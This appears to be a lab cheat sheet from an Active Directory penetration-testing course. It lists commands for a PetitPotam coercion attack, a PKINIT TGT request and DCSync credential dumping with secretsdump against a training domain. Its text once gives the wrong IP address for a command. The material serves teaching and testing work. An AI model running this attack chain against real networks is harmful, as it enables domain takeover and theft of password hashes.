 #### Cloning PetitPotam.py
```Shell
git clone https://github.com/topotam/PetitPotam.git
```
Used to clone the PetitPotam exploit using git. Performed from a Linux-based host.

#### Running PetitPotam.py
```Shell
python3 PetitPotam.py 172.16.5.225 172.16.5.5
```
Used to execute the PetitPotam exploit by specifying the IP address of the attack host (172.16.5.255) and the target Domain Controller (172.16.5.5). Performed from a Linux-based host.

#### *ntlmrelayx.py Should Catch a Base64 Encoded Certificate for DC01*

#### Requesting a TGT Using gettgtpkinit.py
```Shell
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 <base64 certificate> = dc01.ccache
```
Uses gettgtpkinit.py to request a TGT ticket for the Domain Controller (dc01.ccache) from a Linux-based host.

#### Setting the KRB5CCNAME Environment Variable
```shell-session
export KRB5CCNAME=dc01.ccache
```
The TGT requested above was saved down to the `dc01.ccache` file, which we use to set the KRB5CCNAME environment variable, so our attack host uses this file for Kerberos authentication attempts.

#### Using Domain Controller TGT to DCSync
```Shell
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
Impacket tool used to perform a DCSync attack and retrieve one or all of the NTLM password hashes from the target Windows domain. Performed from a Linux-based host.

#### Running klist
```Shell
klist
```
krb5-user command used to view the contents of the ccache file. Performed from a Linux-based host.

#### Submitting a TGS Request for Ourselves Using getnthash.py
```Shell
python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
```
Used to submit TGS requests using getnthash.py from a Linux-based host.

#### Using Domain Controller NTLM Hash to DCSync
```Shell
secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```
Impacket tool used to extract hashes from NTDS.dit using a DCSync attack and a captured hash (-hashes). Performed from a Linux-based host.
